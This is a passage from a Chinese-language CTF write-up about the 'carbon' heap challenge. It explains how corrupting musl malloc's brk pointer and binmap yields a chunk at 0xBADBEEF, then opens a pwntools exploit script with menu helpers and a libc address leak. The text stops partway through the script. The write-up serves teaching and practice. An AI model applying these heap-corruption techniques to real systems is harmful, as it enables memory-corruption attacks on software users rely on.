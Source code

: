 ```
        brk += n;
        return (void *)(brk-n);
    `}`

    // 若 brk 失败，返回 mmap 内存
    [...]
`}`
```

在`__expand_heap`函数中，`brk`是指向数据段（data segment，即动态内存）末尾位置的指针。`__expand_heap`函数调用 brk 系统调用`__syscall(SYS_brk, brk+n)`，将数据段末尾向后延展`n`字节，然后延展部分返回给`malloc`作为新的 chunk 分配给用户。

若程序不开启 PIE，数据段的地址长度为 24 bit（`0~0x2000000`），内存位置与`0xBADBEEF`比较接近。若将`brk`指针修改为`0xBADBEEF - n`，brk 系统调用就会把数据段延展至`0xBADBEEF`，使其成为可访问的内存地址。

```
edit(binmap,  'X' * 16 + p64(0))
edit(brk,     p64(0xbadbeef - 0x20))

add(0) # 0xbadbeef
```

将`mal.binmap`设为`NULL`、`brk`设为`0xbadbecf`，然后用`add(0)`分配一个 0x20 字节 chunk，最终得到`0xBADBEEF`。

注意需要在`mal.binmap`往前的地方构造 fake chunk，防止破坏原来的`binmap`值。

### <a class="reference-link" name="4.5%20%E5%88%A9%E7%94%A8%E8%84%9A%E6%9C%AC"></a>4.5 利用脚本

漏洞利用 Python 脚本如下：

```
#!/usr/bin/env python2
from pwn import *
import sys

context(arch="amd64", log_level="debug")

if len(sys.argv) &gt;= 3:
    p = remote(sys.argv[1], sys.argv[2])
else:
    p = process("./carbon")

def alloc(sz, ctx='n', ans='N'):
    p.sendlineafter("&gt;", '1')
    p.sendlineafter("What is your prefer size? &gt;", str(sz))
    p.sendlineafter("Are you a believer? &gt;", ans)
    p.sendafter("Say hello to your new sleeve &gt;", ctx)

def free(idx):
    p.sendlineafter("&gt;", '2')
    p.sendlineafter("What is your sleeve ID? &gt;", str(idx))

def edit(idx, ctx):
    p.sendlineafter("&gt;", '3')
    p.sendlineafter("What is your sleeve ID? &gt;", str(idx))
    p.send(ctx)

def view(idx):
    p.sendlineafter("&gt;", '4')
    p.sendlineafter("What is your sleeve ID? &gt;", str(idx))
    return p.recvuntil("Done.", True)

alloc(0x1, 'A') #0

libc_base = u64(view(0).ljust(8, 'x00')) - 0x292e41
```